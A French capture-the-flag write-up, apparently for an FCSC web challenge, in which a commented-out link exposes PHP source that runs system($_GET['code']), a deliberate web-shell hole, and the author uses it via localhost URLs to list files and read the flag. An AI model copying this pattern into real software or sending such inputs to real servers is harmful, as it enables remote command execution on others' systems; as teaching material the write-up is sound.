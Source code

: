 # Analyse
J'ai commencé par faire une analyse de la page web.

Je remarque ici qu'il y a une balise href en commentaire :
```html
<head>
	<title>Bienvenue à Babel Web!</title>
</head>
<body>
	<h1>Bienvenue à Babel Web!</h1>
	La page est en cours de développement, merci de revenir plus tard.
	<!-- <a href="?source=1">source</a> -->
</body>
```

# Solution
J'ai donc enlevé les commentaires afin de me rendre sur le lien. Une fois sur la nouvelle page, du PHP apparaît :
```html
<?php
    if (isset($_GET['source'])) {
        @show_source(__FILE__);
    }  else if(isset($_GET['code'])) {
        print("<pre>");
        @system($_GET['code']);
        print("<pre>");
    } else {
?>
<html>
    <head>
        <title>Bienvenue à Babel Web!</title>
    </head>
    <body>
        <h1>Bienvenue à Babel Web!</h1>
        La page est en cours de développement, merci de revenir plus tard.
        <!-- <a href="?source=1">source</a> -->
    </body>
</html>
<?php
    }
?>
```
Dans le code PHP, je remarque ce code la : ***($_GET['code'])*** permet d'exécuter des commandes système directement en passant des valeurs via la variable.

En accédant à cette URL : http://localhost:8000/?code=ls, on obtient deux fichiers : flag.php et index.php.

Je vais aller chercher le flag dans le fichier via la commande :

http://localhost:8000/?code=cat%20flag.php

Ici, une page blanche s'affiche et si l'on regarde dans le code source, alors on trouve le flag :
```html
<pre>
  <!--?php
	$flag = "FCSC{5d969396bb5592634b31d4f0846d945e4befbb8c470b055ef35c0ac090b9b8b7}";
  <pre-->
</pre>
```
